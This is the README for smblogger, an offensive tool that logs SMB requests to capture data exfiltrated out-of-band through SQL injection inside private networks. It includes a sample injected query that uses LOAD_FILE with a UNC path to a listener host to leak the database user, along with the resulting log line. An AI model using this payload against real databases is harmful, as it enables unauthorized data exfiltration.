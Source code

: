 # smblogger
Log requests of requested SMB paths (for OOB exploits).

#### What do I need it for?
This is useful in situations where you want to exfiltrate data via SMB. For example, you found SQL injection but you don't have a domain or can't use DNS. This is common inside private networks without internet access.

For example, let's say you injected the following query:
`SELECT * FROM test WHERE 1=1 OR LOAD_FILE(CONCAT("\\\\127.0.0.1\\",USER()))`

The script would output:
`[-] SMB2_TREE_CONNECT root@localhost`
